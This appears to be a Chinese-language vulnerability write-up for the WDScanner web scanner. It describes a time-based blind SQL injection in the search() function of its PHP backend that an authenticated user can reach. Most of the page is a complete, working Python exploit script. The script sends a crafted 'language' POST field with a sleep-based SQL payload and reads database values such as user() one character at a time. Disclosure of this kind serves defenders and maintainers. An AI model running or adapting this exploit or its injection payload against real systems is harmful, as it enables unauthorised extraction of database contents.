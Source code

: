 # WDScanner的sql注入漏洞

WDScannerv1.1存在sql注入漏洞，攻击者在获得账号的情况下可以通过时间盲注获取数据库数据。

## 项目地址github

**[WDScanner](https://github.com/TideSec/WDScanner)**

### 0x01 产品简介

随着互联网各种安全漏洞愈演愈烈，JAVA反序列化漏洞、STRUTS命令执行漏洞、ImageMagick命令执行漏洞等高危漏洞频繁爆发。在这种情况下，为了能在漏洞爆发后快速形成漏洞检测能力，同时能对网站或主机进行全面快速的安全检测，开发了一套简单易用的分布式web漏洞检测系统WDScanner。

### 0x02 漏洞概述

WDScanner的php后端中的index.action.php中search（）函数接受用户参数未经过滤直接拼接在sql语句中，导致时间盲注

![image-20240716172240636](./sql注入漏洞.assets/image-20240716172240636.png)

在用户登陆的情况下访问index.php?m=search&c=search并传入post参数即可触发漏洞

### 0x03 影响范围

WDScanner全版本

### 0x04 exp

```python
#! /usr/bin/env/python
# -*-coding:utf-8-*-
import requests
from bs4 import BeautifulSoup
import time

chars = r'abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ@;\/:.'  # 正则

headers = {
    'Host': '******',
    'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
    'Accept-Encoding': 'gzip, deflate, br',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://******',
    'Connection': 'close',
    'Referer': 'http://******/?m=index',
    'Cookie': 'PHPSESSID=kjms59jjsmfi51kapfv4q2juv0',
    'Upgrade-Insecure-Requests': '1',
    'Priority': 'u=1'
}


# time blind sql injection
def time_blind(target):
    url = "http://******/?m=search&c=search"
    data = {
        'title': 'a',
        'url': 'a',
        'customer': '',
        'delay': '',
        'os': 'a',
        'port': 'a',
        'middleware': 'a',
        'cms': 'a',
        'language': "a%' and if(substr({},{})='{}',sleep(5), 1)#"
    }
    count = 1
    result = ''
    while (True):
        result_tmp = result
        for char in chars:
            start = time.time()
            # data['language']=data['language'].format(target,count,char)
            data['language'] = f"a%' and if(substr({target},{count},1)='{char}',sleep(5),1)#"
            # data['language'] = f"a%' and if(left(user(),1)='r', sleep(5), 1)#"
            #a%' and if(left(user(),1)='r', sleep(5), 1)#
            print('trying....{}'.format(char))
            print(data['language'])
            response = requests.post(url,data=data,headers=headers)
            if time.time() - start >= 5:
                result += char
                print(result + '......')
                break
        # 判断是否结束
        if result_tmp == result:  # 最后一次遍历所有结果返回值均为小于5s，故result没有变，可作为出头条件
            print(u'脚本结束(结果不区分大小写)')
            print(result)
            break
        count = count + 1


if __name__ == '__main__':
    time_blind('user()')#时间盲注
```

